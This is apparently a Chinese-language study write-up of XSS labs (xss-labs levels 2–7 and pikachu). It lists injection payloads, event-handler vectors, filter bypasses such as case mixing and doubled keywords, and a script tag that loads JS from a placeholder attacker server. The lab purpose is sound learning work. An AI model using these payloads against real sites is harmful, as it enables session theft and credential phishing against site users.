## 前情提要

#### 基础

```js
<script>alert('XSS攻击！');</script>
<script src="http://攻击者服务器/恶意.js">alert(1)</script>
```

当script被过滤时：

```js
（无闭合/跨站常用）


```

```js
<a href="javascript:alert('XSS')">点击我</a>
```

```js
<iframe src="javascript:alert(1)"></iframe>
<body onload="alert('XSS')">
```

#### 加强

```js
<script>
    var res = confirm('是否确认删除？'); // 点确认返回true，取消返回false
    alert('你的选择：' + res);
</script>
```

```js
<script>
    var pwd = prompt('系统升级，请输入密码：');
    alert('你输入的密码：' + pwd); // 实际攻击中会发送到攻击者服务器
</script>
```


事件是“触发`JS`执行的时机”，`XSS`常利用事件绕过过滤（比如<script>被禁时，用事件触发）：


| 事件名        | 触发时机                 | `XSS`示例                                |
| ------------- | ------------------------ | ---------------------------------------- |
| `onclick`     | 点击元素                 | <div onclick="alert(1)">点我</div>       |
| `onload`      | 页面/图片加载完成        | <body onload="alert(1)">                 |
| `onerror`     | 加载失败（如图片不存在） |              |
| `onmouseover` | 鼠标移到元素上           | <div onmouseover="alert(1)">移过来</div> |

---

#### 绕过

1. 大小写混用

```html

```

2. 用*/*、*%0a*、*%09*等替代空格

```html

```

3. **Unicode等各种编码**：

```html


```


## XSS-labs2




可以看到放入恶意代码并没有任何反应

然后观察到

```html
<input name=keyword value="<script>alert(1)</script>">
```

浏览器只会把你输入的 `<script>...` 当作一串普通的字符串文本，显示在网页的搜索框里，而**不会**去执行它。

所以尝试使闭合双引号

```url
http://192.168.80.1/xss-labs-master/level2.php?keyword="><script>alert(1)</script>
```

---

## XSS-labs5




正常的可以发现在h2标签内，把<和>都转成了&lt和&gt

在value中还是可以使用闭合的方法

然后尝试

```html
<script>alert('XSS攻击！');</script>

```

F12看代码，分析一下可以知道，假如程序发现在script和on开头的事件，就会在中间插入下划线 `_` 来破坏原本的语义


其中有一个怪事

```html
"><iframe src="javascript:alert(1)"></iframe>
```

已经弹窗了，结果还是没有下一关（感觉这个靶场有点老了）


那就尝试

```html
"><a href="javascript:alert('XSS')">点击我</a>
```

点击那个“点击我”





即可

---

## xss-labs 6

正常尝试了上面四种都不行

尝试大小写绕过即可

```html
"><SCRIPT>alert(1)</SCRIPT>
```



## xss-labs 7

经过尝试，herf，on，script，SCRIPT，src都会被删除

所以想到一个场景 pphphp

那么我么构造

```html
"><scrscriptipt>alert(1)</scrscriptipt>
">
......
```

即可



## pikachu靶场-反射型`XSS`（get）



输入时发现有长度限制



直接改就OK了，然后输入paylaod即可

## pikachu靶场-反射型`XSS`（post）

输入admin，123456进入靶场之后

直接正常测试就OK了

## pikachu靶场-存储型`XSS`

直接正常测试就OK了

## pikachu靶场-DOM`XSS`

首先输入123在框中，然后F12找出现的位置，找到之后观察



自带的危险paylaod，那么直接构造即可

我先尝试了

```html
javascript:alert('XSS')
```

结果发现不行



那尝试输入：

```
javascript:alert("XSS")
```

即可拿下：


